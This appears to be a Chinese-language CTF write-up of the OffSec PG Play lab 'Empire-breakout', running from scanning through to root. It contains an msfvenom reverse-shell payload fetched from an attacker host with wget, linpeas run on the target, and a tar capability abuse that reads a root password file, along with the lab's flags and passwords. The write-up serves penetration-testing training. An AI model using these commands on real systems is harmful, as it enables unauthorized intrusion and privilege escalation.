

###### tags: `Offsec` `PG Play` `Easy` `Linux`

# Empire-breakout
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.215.238 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.215.238:80
Open 192.168.215.238:139
Open 192.168.215.238:445
Open 192.168.215.238:10000
Open 192.168.215.238:20000

PORT      STATE SERVICE     REASON  VERSION
80/tcp    open  http        syn-ack Apache httpd 2.4.51 ((Debian))
139/tcp   open  netbios-ssn syn-ack Samba smbd 4.6.2
445/tcp   open  netbios-ssn syn-ack Samba smbd 4.6.2
10000/tcp open  http        syn-ack MiniServ 1.981 (Webmin httpd)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 340B042680743ABA77B0FEB886993622
|_http-title: 200 &mdash; Document follows
|_http-trane-info: Problem with XML parsing of /evox/about
20000/tcp open  http        syn-ack MiniServ 1.830 (Webmin httpd)
|_http-title: 200 &mdash; Document follows
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: MiniServ/1.830
|_http-favicon: Unknown favicon MD5: 82C826186EAA65613C4E7614FB7FEDAD
```

F12`192.168.215.238:80`頁面，有看到
```
don't worry no one will get here, it's safe to share with you my access. Its encrypted :)

++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.
```

丟[dCode](https://www.dcode.fr/cipher-identifier)發現是`Trithemius Cipher`，[decode](https://www.dcode.fr/trithemius-cipher)之後得`.2uqPEfj3D<P'a-3`

利用`enum4linux`去列舉
```
┌──(kali㉿kali)-[~/pgplay]
└─$ enum4linux 192.168.215.238

egprot_smb1_done: No compatible protocol selected by server.                                                                       

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (Samba 4.13.5-Debian)

...

[+] Enumerating users using SID S-1-5-32 and logon username '', password ''                                                                                                                    
S-1-5-32-544 BUILTIN\Administrators (Local Group)                     
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''                                                                 
S-1-22-1-1000 Unix User\cyber (Local User)
```

利用帳號`cyber`與密碼`.2uqPEfj3D<P'a-3`可登入`https://192.168.215.238:20000/`

左下角有個terminal可以打開，下載reverseshell使用



```
┌──(kali㉿kali)-[~/pgplay]
└─$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.45.242 LPORT=9001 -f elf > shell_9001
                                                                    
┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp9001

wget 192.168.45.242/shell_9001
chmod +x shell_9001
./shell_9001
```

在`/home/cyber`找到local.txt
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
cyber@breakout:/home/cyber$ cat local.txt
cat local.txt
dc68a3ae8db12717c5a9eb11738237a7
```

用linepeas
```
cyber@breakout:/home/cyber$ wget 192.168.45.242/linpeas.sh
cyber@breakout:/home/cyber$ chmod +x linpeas.sh 
cyber@breakout:/home/cyber$ ./linpeas.sh

══╣ Parent process capabilities
CapInh:  0x0000000000000000=                                                                                                                                             
CapPrm:  0x0000000000000000=
CapEff:  0x0000000000000000=
CapBnd:  0x000001ffffffffff=cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read,cap_perfmon,cap_bpf,cap_checkpoint_restore
CapAmb:  0x0000000000000000=


Files with capabilities (limited to 50):
/home/cyber/tar cap_dac_read_search=ep
/usr/bin/ping cap_net_raw=ep

╔══════════╣ All relevant hidden files (not in /sys/ or the ones listed in the previous check) (limit 70)
...
-rw------- 1 root root 17 Oct 20  2021 /var/backups/.old_pass.bak
...
```

tar有讀取file的權限，查看[GTFOBins](https://gtfobins.github.io/gtfobins/tar/#file-read)，我們可利用tar讀取`/var/backups/.old_pass.bak`，可拿到一組密碼，切換成root輸入此密碼可取得root權限，在/root底下可取得proof.txt
```
cyber@breakout:/home/cyber$ LFILE=/var/backups/.old_pass.bak
cyber@breakout:/home/cyber$ ./tar xf "$LFILE" -I '/bin/sh -c "cat 1>&2"'
Ts&4&YurgtRX(=~h

cyber@breakout:/home/cyber$ su root
Password: Ts&4&YurgtRX(=~h

root@breakout:/home/cyber# 
root@breakout:~# cat proof.txt
9f7b31b22a6c5a7a2dfd90139a0c87cd
```